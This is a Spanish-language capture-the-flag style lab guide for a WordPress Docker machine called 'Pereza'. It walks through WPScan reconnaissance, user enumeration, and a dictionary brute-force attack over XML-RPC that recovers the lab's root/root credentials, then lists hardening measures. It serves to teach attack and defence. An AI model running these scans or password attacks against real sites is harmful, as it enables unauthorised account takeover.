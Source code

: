 = Pereza
:author: Manuel L. Quero
:toc: left
:doctype: book

<<<

== WordPress y sus vulnerabilidades

WordPress es un sistema de gestión de contenidos (CMS) gratuito y de código abierto que permite a cualquier persona crear y administrar sitios web con facilidad. Originalmente concebido como una plataforma de blogs en 2003, ha evolucionado hasta convertirse en una de las herramientas más versátiles para desarrollar desde simples sitios personales hasta complejas tiendas de comercio electrónico.

Sin embargo, su enorme popularidad (más del 40% de los sitios web del mundo utilizan WordPress) lo convierte en un blanco constante para ciberdelincuentes. Esta popularidad, sumada a una comunidad diversa de desarrolladores de plugins y temas, ha generado un entorno en el que las configuraciones por defecto, credenciales débiles, plugins vulnerables o versiones sin actualizar pueden dejar expuesto un sitio web con facilidad.

=== Vulnerabilidades comunes en WordPress

* *Uso de credenciales por defecto o débiles* -> Muchos administradores dejan el nombre de usuario “admin” y contraseñas como “admin123” o “password”, facilitando ataques de fuerza bruta.

* *Plugins y temas vulnerables* -> WordPress permite ampliar su funcionalidad con plugins, muchos de los cuales son desarrollados por terceros. Cuando no se actualizan con frecuencia o tienen malas prácticas de seguridad, pueden introducir fallos críticos.

* *Versiones desactualizadas del núcleo de WordPress* -> Al no aplicar parches de seguridad, se dejan abiertas puertas ya conocidas y documentadas.

* *Configuraciones por defecto* -> Instalaciones que dejan habilitado el acceso público a /wp-admin o la API REST sin restricciones pueden ser explotadas para enumerar usuarios o realizar ataques automatizados.

=== Ataques frecuentes

Entre los ataques más comunes se encuentran:

* Fuerza bruta contra el panel de login

* Cross-Site Scripting (XSS)

* Inyecciones SQL (especialmente en plugins mal desarrollados)

* Carga de archivos maliciosos

* Escalada de privilegios a través de bugs en extensiones

<<<

== Solucionar la máquina

En esta guía aprenderemos cómo analizar un sitio web desarrollado con WordPress para identificar posibles vulnerabilidades. Utilizaremos herramientas como WPScan para detectar configuraciones inseguras, plugins o temas desactualizados y otros puntos débiles comunes. Después se realizará un ataque de fuerza bruta como parte del reconocimiento activo, pero su explicación detallada se abordará en la sección correspondiente al círculo de la ira.

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, pereza.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh pereza.tar
----

=== WPscan

WPscan es una herramienta de escaneo de seguridad específica para sitios web construidos con WordPress. 

==== Descargar

Para descargar esta herramienta viene explicado en su https://github.com/wpscanteam/wpscan[github].

* *Gem* -> Esta es la opción más recomendada en caso de usar Kali Linux.

[source,bash]
----
$ sudo apt install ruby
$ sudo apt install build-essential libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev  libgmp-dev zlib1g-dev
$ gem install wpscan
$ gem update wpscan
----

* *Docker* -> En caso de usar otra distribución podemos descargarla por docker.

[source,bash]
----
$ docker pull wpscanteam/wpscan
$ docker run -it --rm wpscanteam/wpscan --url https://target.tld/ --enumerate (...)
----

En caso de usar distribuciones más extrañas puedes https://www.linuxbabe.com/security/install-wpscan-wp-vulnerability-scanner[ver esto].

WPscan es gratis pero mejora con la API, en caso que queramos hacer escaneos más exhaustivos -> https://wpscan.com/pricing/[ver aquí].

==== Reconocimiento

Una vez instalada nuestra herramienta, vamos a proceder a analizar la página.

Es importante saber que el login de WordPress está en /wp-admin. También esta /robots.txt que nos puede proporcionar información adicional.

===== 1. Reconocimiento general

Comenzamos realizando un escaneo general, principalmente para comprender cómo es la estructura, ver las cabeceras, ver si tiene XML-RPC, ver la versión de WordPress, y entre otras cosas que vamos a ver a continuación.

[source,bash]
----
$ wpscan --url http://localhost:8080
----

.WPscan General
[%collapsible]
====
[source,text]
----
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://localhost:8080/ [::1]
[+] Started: Sat Apr 12 19:05:48 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.62 (Debian)
 |  - X-Powered-By: PHP/8.2.28
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://localhost:8080/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://localhost:8080/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://localhost:8080/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.2 identified (Latest, released on 2025-02-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://localhost:8080/?feed=rss2, <generator>https://wordpress.org/?v=6.7.2</generator>
 |  - http://localhost:8080/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.7.2</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://localhost:8080/wp-content/themes/twentytwentyfive/
 | Last Updated: 2025-02-11T00:00:00.000Z
 | Readme: http://localhost:8080/wp-content/themes/twentytwentyfive/readme.txt
 | [!] The version is out of date, the latest version is 1.1
 | Style URL: http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Apr 12 19:05:52 2025
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 44.104 KB
[+] Data Received: 253.503 KB
[+] Memory used: 269.578 MB
[+] Elapsed time: 00:00:03
----
====

* *[+] Headers*

Podemos ver cómo se están exponiendo cabeceras del servidor y del lenguaje utilizado. Gracias a esto podemos buscar CVEs para las versiones de estos servicios y explotarlos

----
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.2.28
----

* *[+] XML-RPC Enabled*

XML-RPC es un protocolo que permite a aplicaciones externas interactuar con WordPress (ej: publicación remota). Tener esta habilitado es altamente peligroso y explotable. 
Puede usarse para: ataques de fuerza bruta por amplificación, pingback DDoS o escaneo de usuarios.

----
http://localhost:8080/xmlrpc.php
----

* *[+] WordPress readme found*

Este archivo contiene la versión exacta de WordPress, lo que facilita identificar vulnerabilidades específicas de esa versión.

----
http://localhost:8080/readme.html
----

* *[+] External WP-Cron Enabled*

Permite ejecutar tareas programadas como publicar entradas, comprobar actualizaciones, etc. Si se abusa, puede ser usado para sobrecargar el servidor con peticiones constantes (DDoS).

----
http://localhost:8080/wp-cron.php
----

* *[+] WordPress version identified: 6.7.2*

La versión del CMS puede extraerse fácilmente de los feeds RSS. Conocer la versión nos facilita ataques específicos.

* *[+] WordPress Theme: twentytwentyfive*

La version está desactualizada: 1.0 (última: 1.1). Esto es inseguro ya que las versiones desactualizadas de temas pueden contener vulnerabilidades.

* *[i] No Plugins Encontrados*

En este caso no hay plugins con vulnerabilidades.

* *[+] Enumeración de Config Backups*

No se encontraron backups públicos.

===== 2. Reconocimiento de usuarios

En este escaneo, esperamos conseguir los usuarios que tienen acceso a wp-admin

[source,bash]
----
$ wpscan --url http://localhost:8080 --enumerate u
----

.WPscan Usuarios
[%collapsible]
====
[source,text]
----
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] root
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] accidia
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
----
====

He cogido directamente la parte de los usuarios, ya que vuelve hacer un escaner general, y eso ya ha sido explicado anteriormente.

Como podemos observar hemos obtenido dos usuarios que son *root* y *accidia*, gracias a esto podemos realizar ataques de fuerza bruta.

* *Enumeración pasiva (RSS Generator)* -> Al acceder al feed RSS (/?feed=rss2), WordPress expone automáticamente metadatos que incluyen el autor de las entradas. Por eso WPScan identificó al usuario root sin necesidad de interactuar directamente con la web.

* *Enumeración agresiva (Author Pattern)* -> WPScan hace peticiones a URLs como /author=1, /author=2, etc., y observa los redireccionamientos y títulos de las páginas para deducir el nombre de usuario. Así encontró accidia.

===== 3. Otros tipos de escaneos

Cómo ya hemos visto, wpscan es una herramienta muy poderosa contra páginas de WordPress, por eso voy a mostrar otros tipos de enumeración que nos pueden servir para obtener más información:

* *Escanear y enumerar plugins y temas*

[source,bash]
----
$ wpscan --url https://example.com --enumerate ap,at
----

ap -> all plugins.

at -> all templates.

* *Enumerar todas las vulnerabilidades*

[source,bash]
----
$ wpscan --url https://example.com --enumerate vp,vt,tt
----

vp -> vulnerable plugins.

vt -> vulnerable themes.

tt -> vulnerable timthumbs.

Una vez identificamos versiones vulnerables de plugins, temas u otros componentes, tenemos varias formas de continuar el ataque o la investigación:

* *Buscar vulnerabilidades manualmente*

Copiamos la versión del plugin/tema vulnerable y la buscamos en un navegador con términos como:

----
(plugin-name) (version) exploit o (plugin-name) CVE.
----

Es común encontrar repositorios en GitHub, foros o blogs donde se comparten proof of concept (PoC) o incluso exploits funcionales.

* *Usar bases de datos de exploits públicos*

https://www.exploit-db.com[Exploit-DB]: Es una base de datos de vulnerabilidades conocida que incluye descripciones técnicas, PoCs y a veces exploits completos. Buscar por nombre de plugin, tema o CVE detectado.

* *Usar SearchSploit (offline)*

https://www.exploit-db.com/searchsploit[SearchSploit] es una herramienta incluida en Kali Linux que permite buscar localmente en la base de datos de Exploit-DB:

[source,bash]
----
$ searchsploit nombre_del_plugin_o_vulnerabilidad
----

También permite mostrar o copiar el exploit directamente:

[source,bash]
----
$ searchsploit -m exploit/path
----

==== Ataque

Una vez obtenidos los usuarios, vamos a realizar un ataque de fuerza bruta con wpscan. Pero antes tenemos que saber que es un ataque de fuerza bruta.

Un ataque de fuerza bruta es un tipo de ataque que utiliza pruebas y errores para descifrar contraseñas, credenciales de inicio de sesión y claves de cifrado. Es una táctica simple pero confiable para obtener acceso no autorizado a cuentas individuales y sistemas y redes de organizaciones.

Estos ataques requieren mucho tiempo, especialmente cuando se utilizan contraseñas largas o complejas. Además este proceso puede consumir grandes cantidades de recursos del sistema (como la CPU y la memoria), lo que hace que el ataque sea lento y costoso en términos de rendimiento. Además son más faciles de detectar ya que generan grandes cantidades de tráfico de red o múltiples intentos de inicio de sesión fallidos.

Existen varios tipos, pero nosotros vamos a usar el ataque por diccionario, en este el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona.

Kali Linux viene con varios diccionarios preinstalados en la ruta /usr/share/wordlists, que forman parte de sus herramientas, podemos verlo más en detalle en el siguiente enlace https://www.kali.org/tools/wordlists/[Wordlists]. Recomiendo primeramente probar diccionarios pequeños, sobretodo si encontramos indicios de credenciales por defecto, ya que tardará menos que si utilizamos diccionarios más grandes como https://github.com/intelligencegroup-io/RockYou2024[rockyou 2024] con 9,948,575,739 contraseñas.

[source,bash]
----
$ wpscan --url https://localhost:8080 -U root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt
----

.WPscan Password
[%collapsible]
====
[source,text]
----
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - root / root                                                                                                                                                                     
Trying root / roost Time: 00:03:02 <=================================================                                                                > (38665 / 86268) 44.81%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: root, Password: root
----
====

Como podemos ver que el ataque lo realiza sobre Xmlrpc y que ha encontrado la contraseña root, por lo que probamos a ponerla:

[.text-center]
image::assets/root.png[Metemos Credenciales]

[.text-center]
image::assets/acceso.png[Acceso a WordPress]

Y como podemos ver, estamos dentro.

<<<

== ¿Cómo prevenir?

=== WordPress

WordPress al ser muy amplio, tiene muchas formas de mitigarlo, por lo que vamos a ver las más esenciales.

==== 1. Mantener WordPress, plugins y temas actualizados

WordPress es un software que se mantiene y actualiza con regularidad. Por defecto, WordPress instala automáticamente actualizaciones menores. Pero las versiones principales, debe iniciarse manualmente la actualización.

WordPress también incluye miles de plugins y temas que puedes instalar en tu sitio web. El mantenimiento de estos plugins y temas corre a cargo de desarrolladores externos, que también lanzan actualizaciones con regularidad.

==== 2. Utilizar contraseñas fuertes y únicas

Como ya hemos visto los intentos de pirateo de WordPress más comunes utilizan contraseñas robadas. Sin embargo, se puede dificultar utilizando contraseñas más seguras y únicas para el sitio web. Y no solo en WordPress sino en FTP, bases de datos, correos electrónicos asociados, etc. También se puede usar 2FA y gestores de contraseñas como Keepass.

==== 3. Limitar los intentos de inicio de sesión

Se puede restringir la cantidad de intentos fallidos de acceso para prevenir ataques de fuerza bruta. Plugins como https://wordpress.org/plugins/limit-login-attempts-reloaded/[Limit Login Attempts Reloaded] pueden ser muy utilies para esta tarea.

==== 4. Desactivar XML-RPC si no es necesario

XML-RPC es una API del núcleo de WordPress que ayuda a conectar tu sitio WordPress con aplicaciones web y móviles. Está activada / activa por defecto desde WordPress 3.5. Si esta API no se utiliza es muy recomendable desactivarlo. Existen varias formas, pero modificando el .htaccess es la más recomendable al no usar tantos recursos. Deberemos encontrar el archivo .htaccess y poner el siguiente código:

[source,text]
----
# Block WordPress xmlrpc.php requests
<Files xmlrpc.php>
order deny,allow
 deny from all
allow from 123.123.123.123
</Files>
----

Otra forma es usando el plugin  https://wordpress.org/plugins/disable-xml-rpc-api/[Disable XML-RPC-API].

==== 5. Instalar un firewall de aplicaciones web (WAF)

Cómo ya hemos visto en otras ocasiones un WAF es muy útil, pero no debemos confiar toda la seguridad a este, ya que existen formas de baipasearlo.

==== 6. Realizar copias de seguridad periódicas

Otra de las cosas que hemos visto durante el escaneo es la falta de backups, por lo que es recomendable realizar periodicamente estas copias de seguridad, ya que en caso de ransomware puede no afectarnos tanto, aunque depende de la metodología que se siga. Hay plugins como UpdraftPlus o BlogVault y almacenan las copias en ubicaciones externas como Dropbox o Amazon S3.

==== 7. Cambiar el prefijo de la base de datos

Modificar el prefijo por defecto (wp_) de las tablas de la base de datos dificulta los ataques automatizados que buscan estructuras estándar.

==== 8. Desactivar la edición de archivos desde el panel de administración

Esto previene que usuarios con acceso al panel modifiquen archivos críticos directamente desde el navegador.

==== 9. Proteger el archivo .htaccess y otros archivos sensibles

Es necesario restringir el acceso a archivos como .htaccess, wp-config.php y readme.html para evitar que se exponga información sensible.

==== 10. Utilizar un proveedor de alojamiento seguro

Existen servicios de hosting que ofrezcan medidas de seguridad robustas, como escaneos automáticos de malware, certificados SSL y soporte para actualizaciones automáticas.

En caso de querer saber más sobre cómo volver más seguro entornos de WordPress vease -> https://www.wpbeginner.com/es/wordpress-security/[Securizar WordPress].

----
"Si tu empresa gasta más en café que en seguridad TI, serás hackeado. Es más, merecerás ser hackeado."

— Eric S. Raymond
----